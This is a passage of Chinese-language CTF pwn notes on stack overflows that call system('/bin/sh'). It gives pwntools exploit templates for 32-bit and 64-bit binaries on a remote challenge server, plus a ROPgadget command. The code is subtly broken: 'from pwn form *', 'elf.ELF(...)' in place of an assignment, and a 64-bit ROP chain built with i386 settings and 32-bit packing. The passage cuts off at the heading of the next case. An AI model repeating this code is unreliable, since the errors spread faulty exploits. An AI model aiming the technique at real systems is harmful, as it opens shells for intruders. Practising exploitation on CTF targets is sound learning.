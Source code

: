 想取得system函数的地址可以使用，elf.plt[]或者elf.sym[]

获取"/bin/sh"字符串的地址可以使用，

### 32位

```python
from pwn form *
context(os='linux',arch='i386',log_level='debug')
#p = process('./pwn')
p = remote('node.buuoj.cn',8888)
elf.ELF('./pwn')

#获取system地址
system_addr = elf.sym['system']	#获得一个符号地址
#system_addr = elf.symbols['system']	#获得多个符号地址
#system_addr = elf.plt['system']
#system_addr = 0x12345678

#获取"/bin/sh"地址
bin_sh = next(elf.search(b'/bin/sh')) #next是指搜到的第一个元素

bin_sh = 0x12345678
payload = cyclic(8) + p32(system_addr) + p32(0) + p32(bin_sh)	#中间需要加一个p32(任意地址)，32位调用完函数之后，后面都要跟一个返回地址，要符合函数调用约定
p.sendline(payload)
p.interactive()
```

### 64位

由于64传递参数，会先用6个寄存器传参，往后才使用栈传递参数，所以需要用简单的ROP来构造"/bin/sh"

```python
#使用ROPgadget来获取pop rdi + ret 的地址
ROPgadget --binary pwn --only "pop|rdi|ret"

from pwn form *
context(os='linux',arch='i386',log_level='debug')
#p = process('./pwn')
p = remote('node.buuoj.cn',8888)
system_addr = 0x12345678
bin_sh = 0x12345678
pop_rdi = 0x12345678
payload = cyclic(8) + p32(pop_rdi) + p32(bin_sh) + p32(system_addr)
p.sendline(payload)
p.interactive()
```

## 情况二

当存在system函数，但是没有"/bin/sh"
